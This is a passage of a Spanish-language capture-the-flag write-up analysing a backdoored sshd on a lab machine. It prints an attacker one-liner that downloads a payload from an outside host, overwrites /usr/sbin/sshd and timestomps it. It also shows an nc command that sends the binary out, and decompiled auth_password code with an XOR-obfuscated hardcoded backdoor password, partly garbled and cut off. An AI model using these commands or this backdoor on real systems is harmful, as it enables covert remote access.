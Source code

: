 Al decodificarlo vemos que es un one-liner de dos comandos.

```bash
wget sharefiles.xyz/image.jpeg -O /usr/sbin/sshd
touch -d date +%Y-%m-%d -r /usr/sbin/a2enmod /usr/sbin/sshd
```

Lo que hace es que descarga una supuesta imagen, con ella sobrescribe /usr/sbin/sshd y luego le cambia la fecha, vamos a traernos a nuestra máquina el archivo ```/usr/sbin/sshd```.

```
steven@production:/usr/sbin$ cat sshd | nc 10.10.14.3 8080
steven@production:/usr/sbin$ md5sum sshd
9ae629656c6f72dc957358b1f41df27e  sshd
```

```
$ nc -lvnp 8080 > sshd
listening on [any] 8080 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.146] 43806
$ md5sum sshd
9ae629656c6f72dc957358b1f41df27e  sshd
```

Si analizamos el archivo con ghidra, veremos que hay una función llamada ```auth_password```, la cual es bastante sospechosa porque hay una variable llamada ```backdoor```.

```
int auth_password(sshssh,char password)

{
  Authctxtctxt;
  passwd ppVar1;
  int iVar2;
  uint uVar3;
  bytepbVar4;
  byte pbVar5;
  size_t sVar6;
  byte bVar7;
  int iVar8;
  long in_FS_OFFSET;
  char backdoor [31];
  byte local_39 [9];
  long local_30;

  bVar7 = 0xd6;
  ctxt = (Authctxt)ssh->authctxt;
  local_30 = (long)(in_FS_OFFSET + 0x28);
  backdoor._282 = 0xa9f4;
  ppVar1 = ctxt->pw;
  iVar8 = ctxt->valid;
  backdoor._244 = 0xbcf0b5e3;
  backdoor._168 = 0xb2d6f4a0fda0b3d6;
  backdoor[30] = '\xa5';
  backdoor._04 = 0xf0e7abd6;
  backdoor._44 = 0xa4b3a3f3;
  backdoor._84 = 0xf7bbfdc8;
  backdoor._124 = 0xfdb3d6e7;
  pbVar4 = (byte *)backdoor;
  while( true ) {
    pbVar5 = pbVar4 + 1;
    pbVar4 = bVar7 ^ 0x96;
    if (pbVar5 == local_39) break;
    bVar7 =pbVar5;
    pbVar4 = pbVar5;
  }
  iVar2 = strcmp(password,backdoor);
  uVar3 = 1;
```